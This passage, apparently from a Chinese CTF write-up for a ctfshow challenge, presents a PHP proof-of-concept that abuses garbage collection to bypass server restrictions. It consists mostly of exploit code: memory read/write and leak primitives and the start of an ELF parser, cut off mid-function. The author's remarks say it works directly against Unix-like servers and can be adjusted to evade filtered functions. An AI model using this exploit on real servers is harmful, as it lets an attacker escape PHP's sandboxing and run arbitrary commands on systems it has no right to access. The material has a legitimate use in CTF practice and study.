 ```php
接下来是ctfshow 提供的这道题的poc（一个绕过安全目录的脚本）：说是利用了 php的垃圾回收，代码啃了一部分后面实在啃不动了，涉及到偏移地址之类的，那些数值不知道具体指向。（以后再研究吧）

这个脚本一般情况过下应该是可以直接使用，要求被攻击服务器必须是类unix系统，没有什么容易被过滤的函数，可能会被过滤的strlen()在脚本中也只是起到判断作用，可以调整修改的。
```

```php
<?php
function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
```